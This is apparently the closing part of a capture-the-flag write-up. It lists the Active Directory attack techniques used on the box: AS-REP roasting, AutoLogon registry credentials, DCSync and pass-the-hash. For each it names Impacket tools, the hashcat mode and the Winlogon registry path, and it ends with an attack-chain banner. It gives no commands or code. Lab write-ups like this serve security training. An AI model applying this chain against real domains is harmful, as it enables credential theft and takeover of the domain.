│      ▸ https://pentestlab.blog/ (Pentestlab Blog)                                │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘

┌──────────────────────────────────────────────────────────────────────────────────┐
│  VULNERABILITIES IN THIS BOX - SEARCH QUERIES                                    │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  AS-REP Roasting (T1558.004)                                                     │
│  ▸ Tool: GetNPUsers.py (Impacket)                                                │
│  ▸ https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py         │
│  ▸ "AS-REP Roasting" kerberos pre-authentication                                 │
│  ▸ Hashcat mode: 18200                                                           │
│                                                                                  │
│  AutoLogon Credentials (T1552.002)                                               │
│  ▸ Tool: WinPEAS, reg query                                                      │
│  ▸ "windows autologon password registry"                                         │
│  ▸ HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon                    │
│                                                                                  │
│  DCSync Attack (T1003.006)                                                       │
│  ▸ Tool: secretsdump.py (Impacket)                                               │
│  ▸ https://github.com/fortra/impacket/blob/master/examples/secretsdump.py        │
│  ▸ "DCSync attack" DS-Replication-Get-Changes                                    │
│                                                                                  │
│  Pass-the-Hash (T1550.002)                                                       │
│  ▸ Tools: evil-winrm, psexec.py, wmiexec.py                                      │
│  ▸ "pass the hash" NTLM authentication                                           │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

```
╔══════════════════════════════════════════════════════════════════════════════════════╗
║                                                                                      ║
║   ░█▀▀░█░█░█▀▀░▀█▀░█▀▀░█▄█░░░█▀▀░█▀█░█▄█░█▀█░█▀▄░█▀█░█▄█░▀█▀░█▀▀░█▀▀░█▀▄            ║
║   ░▀▀█░░█░░▀▀█░░█░░█▀▀░█░█░░░█░░░█░█░█░█░█▀▀░█▀▄░█░█░█░█░░█░░▀▀█░█▀▀░█░█            ║
║   ░▀▀▀░░▀░░▀▀▀░░▀░░▀▀▀░▀░▀░░░▀▀▀░▀▀▀░▀░▀░▀░░░▀░▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀░            ║
║                                                                                      ║
║   WRITEUP AUTHOR: Netrunner                                                          ║
║   COMPLETION DATE: 2026-01-11                                                        ║
║   ATTACK CHAIN: OSINT > AS-REP Roast > AutoLogon > DCSync > Pass-the-Hash > SYSTEM   ║
║                                                                                      ║
╚══════════════════════════════════════════════════════════════════════════════════════╝
```

---

<div align="center">


</div>
